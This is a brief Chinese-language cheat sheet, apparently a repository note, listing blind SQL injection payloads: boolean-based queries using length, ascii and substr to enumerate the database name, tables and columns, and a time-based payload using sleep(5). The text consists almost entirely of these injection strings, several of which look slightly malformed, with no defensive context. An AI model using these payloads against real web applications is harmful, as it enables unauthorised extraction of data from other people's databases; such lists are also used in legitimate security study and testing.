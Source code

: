 ##### 基于布尔的sql注入



1. 查库

   ```bash
   xxx' select length(database())>122#
   
   xxx' and ascii(substr(database(), 1, 1))>112#
   ```

2. 查表

   ```bash
   xxx' ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1,1))#
   ```

3. 查字段

   ```bash
   xxx' ascii(substr((select column_name from information_schema.columns where table_schema=database() limit 0,1), 1, 1))#
   ```

   



##### 基于时间延迟的sql注入

1. 查库

```bash
xxx' and if((substr(database(), 1, 1))='a', sleep(5),null)#
```

